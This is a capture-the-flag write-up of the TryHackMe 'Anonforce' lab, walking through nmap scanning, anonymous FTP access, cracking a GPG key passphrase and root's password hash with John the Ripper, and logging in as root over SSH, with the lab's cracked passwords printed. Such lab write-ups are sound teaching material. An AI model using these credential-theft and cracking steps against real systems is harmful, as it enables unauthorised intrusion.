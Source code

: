 ```yaml
---
title: TryHackMe - Anonforce
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, ftp, ssh, gpg, john, crack]
image:
    path: /assets/img/try%20hack%20me%20/Easy/Anonforce/0.jpeg
    alt: Anonforce
---
```


# Anonforce  

boot2root machine for FIT and bsides guatemala CTF  

# Tasks  
Read user.txt and root.txt  

# nmap

```sh
nmap -sV -sC -v 10.10.59.93 | tee nmap.txt
```

```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 bin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 boot
| drwxr-xr-x 17 0 0
3700 Feb 08 07:18 dev
| drwxr-xr-x 85 0 0
4096 Aug 13 2019 etc
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 home
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x 19 0 0
4096 Aug 11 2019 lib
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 lib64
| drwx------ 2 0 0
16384 Aug 11 2019 lost+found
| drwxr-xr-x 4 0 0
4096 Aug 11 2019 media
| drwxr-xr-x 2 0 0
4096 Feb 26 2019 mnt
| drwxrwxrwx 2 1000 1000
4096 Aug 11 2019 notread [NSE: writeable]
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 opt
| dr-xr-xr-x 94 0 0
0 Feb 08 07:18 proc
| drwx------ 3 0 0
4096 Aug 11 2019 root
| drwxr-xr-x 18 0 0
540 Feb 08 07:18 run
| drwxr-xr-x 2 0 0
12288 Aug 11 2019 sbin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 srv
| dr-xr-xr-x 13 0 0
0 Feb 08 07:18 sys
| drwxrwxrwt 9 0 0
4096 Feb 08 07:18 tmp [NSE: writeable]
| drwxr-xr-x 10 0 0
4096 Aug 11 2019 usr
| drwxr-xr-x 11 0 0
4096 Aug 11 2019 var
| lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
|_lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
1/9| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
| 256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_ 256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
Two ports are open  
- 21 = ftp  
- 22 = ssh  

ftp seems to lack log in credentials so will start with that one.  

# ftp_21
```sh
ftp anonymous@10.10.59.93
```

Used default credentials `anonymous:anonymous`  
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/1.png)  
Enumerating i got the user flag .  

![](/assets/img/try%20hack%20me%20/Easy/Anonforce/2.png)

# Privilege Escalation

![](/assets/img/try%20hack%20me%20/Easy/Anonforce/2.png)

- We can not view or write any thing on the root directory
- But there is a fishy directory with unique permissions.

```sh
cd notread
mget *
```
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/4.png)  
one file is an image while the other has some guddies  
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/5.png)

Now we have 
- open port 22 = ssh
- id_rsa key

Lacking a valid user name .
run search_sploit to see if the ssh has an exploit
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/6.png)

- Downloaded the exploit but was unable to use it.
- Did some research.

We got two files from ftp :
- backup.pgp  
- private.asc  

We have an encrypted `backup.pgp` file, and very likely a private key file that we can use to decrypt it.  
First, what we need to do is import the private key into our keyring (key management database) of the PGP application.  

```sh
gpg --import private.asc
```
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/7.png)

We need to crack the passphrase in order to import it into the key ring.  
We can use `John the Ripper` password-cracking tool for this.  

```sh
 gpg2john private.asc > privatehash.txt
```

Now we can run john to crack the hash using the famous `rockyou.txt` dictionary.  

```sh
 john privatehash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/8.png)

Now that we have the passphrase for the private key, we can import it into the keyring and decrypt the backup.pgp file.  

passphrase = `xbox360`

```sh
gpg --import private.asc

gpg --decrypt backup.pgp
```
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/9.png)
We will get a backup of the passwd file, that includes the password hash of root and melodias users.  
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/10.png)

Now we crack the passwd file using john.
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/11.png)
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/12.png)

  
- username = root  
- password = hikari  

```sh
 ssh root@10.10.59.93
 ```  
![](/assets/img/try%20hack%20me%20/Easy/Anonforce/13.png)
